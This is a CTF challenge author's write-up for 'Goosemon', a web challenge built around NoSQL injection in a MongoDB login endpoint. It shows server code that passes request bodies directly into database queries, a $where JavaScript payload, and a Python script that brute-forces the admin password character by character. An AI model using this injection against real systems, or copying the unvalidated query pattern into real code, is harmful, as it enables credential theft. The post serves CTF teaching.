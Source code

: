 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/goosemon/cover.webp
navigation: True
title: "Goosemon"
date: 2024-05-06 11:59:00
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


I'd rather die than use a password manager. In other news, can anyone help me remember the login info for my account? *The flag for this challenge is the account password.*

This was the first challenge I've ever written, so be nice to her, okay? I've seen countless SQL injection challenges, but as a corporate shill who is interning at MongoDB this summer, I wanted to try out NoSQL injection. This challenge is inspired by [this writeup](https://kevin-denotariis.medium.com/writeup-wild-goose-hunt-cyber-apocalypse-2021-ctf-hackthebox-38dde9c50178) by Kevin De Notariis about a Cyber Apocalypse 2021 challenge with a similar premise. My challenge ended up getting 54 solves, the 2nd most solves in the web category.

This writeup will include the intended solution; I saw a bunch of other solutions in writeups that use a similar premise, but different queries. I'll link those as I find them.

# The Problem

We are given a simple webpage for Goosemon, the totally-copyright-friendly monster collecting game themed on geese. The only option is to sign in. When we get to the sign in page, we can see that we need a username and a password. The project description let us know that the password is the flag. That's pretty much all you can get from the website on first glance.

![image of login website](/assets/squ1rrel/kyleburgess2025/goosemon/signin.webp)

Next, let's take a look at the source code. We can see that the flag is loaded into the database in the startup script and is associated with the `admin` username. 

```js
const { MongoClient } = require('mongodb');

// add the flag to the database
const url = process.env.ME_CONFIG_MONGODB_URL;
const client = new MongoClient(url);
const dbName = 'goosemon';
const flag = process.env.FLAG;
const userCollection = 'users';
const flagDoc = { username: "admin", password: flag };

(async () => {
    await client.connect();
    const db = client.db(dbName);
    const collection = db.collection(userCollection);
    await collection.insertOne(flagDoc);
    console.log('Flag added to database');
    await client.close();
}
)();
```

The .html file shows nothing interesting, just that we are calling the `/login` endpoint when we log in. However, the `/login` endpoint seems to be interesting, for a variety of reasons.

```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}

app.post("/login", jsonParser, async (req, res) => {
  try {
    if (!req.body) {
      res.status(400).send("Request body is missing");
      return;
    }
    if (filter(req.body)) {
        res.status(400).send("Nuh uh uh, no regex allowed!");
        return;
    }

    const db = client.db(dbName);
    const collection = db.collection("users");

    const data = collection.find(req.body);
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
  } catch (error) {
    console.log(error);
    res.status(500).send("Internal server error");
  }
});
```

The first thing that catches my eye is the `filter` function. We cannot use the word "regex" anywhere in our query, ruling out the NoSQL injection mentioned in De Notariis's writeup. Also, there is virtually no query verification being done here. Our input is being used as the query itself - it doesn't make sure it consists of `username` and `password` fields. This is also important for my solve.

One last thing to note...

```yml
mongo:
image: mongo:5.0.26
restart: always
environment:
    MONGO_INITDB_ROOT_USERNAME: root
    MONGO_INITDB_ROOT_PASSWORD: password
```

This application does not use the most recent version of MongoDB; instead, it uses version 5. This is not completely necessary for solving the challenge, but it does make it easier for reasons we will see later.

# Putting It Together
Ok, let's get query building. My approach is to start with what we know the password starts with: `squ1rrel{`. Then, we go one by one through all of the allowable characters, concatenating them with our current password. We will see if the new password (with the added character) is a substring of the full password; if so, repeat to find the next character until we hit the final `}`. If not, we move on to the next character. 

There's a few methods we could use for finding if a string is a substring of an entry in the database. The method I used was the `$where` function, which allows you to use JavaScript in your queries. Something to note about this `$where` function: MongoDB version 6.0 updated the internal JavaScript engine to disallow a bunch of string and array methods, including `.contains`, `.substr`, `.includes`, and others. See the full list [here](https://www.mongodb.com/docs/manual/release-notes/6.0-compatibility/#std-label-6.0-js-engine-change). I decided to use `.contains` and created the following query:

```py
payload = {
    "username": "admin",
    "$where" : f"this.password.includes(\"{curr_pw}\")"
    }
```

My solve script, therefore, looked like this:

```py
import requests

url = "http://34.132.166.199:5249/login"

full_pw = "squ1rrel{"

def check_chars(password):
    for char in range(0x21, 0x7F): 
        curr_pw = password + chr(char)

        payload = {
            "username": "admin",
            "$where": f"this.password.includes(\"{curr_pw}\")"
            }

        response = requests.post(url, json=payload)

        if 'Login successful' in response.text:
            print(curr_pw)
            return curr_pw

while full_pw[-1] != "}":
    full_pw = check_chars(full_pw)

print(full_pw)
```

This runs great, until...

![image of Python logs showing the script failing](/assets/squ1rrel/kyleburgess2025/goosemon/logs.webp)

Oh no, "regex" is in the flag! Thankfully, since my method looks for a substring, I can restart my solve script with `egex` as the original `full_pw`. A few potential solves, including those that use the `$lt` and `$gt` operator, stopped working completely at this point. I added `regex` to the flag mainly to mess with people and make some queries not work. This was cruel. Sorry 🤭

Flag: `squ1rrel{7h0ugh7_y0u_c0u1d_regex_y0ur_way_0u7_0f_7h1s_ay3?}`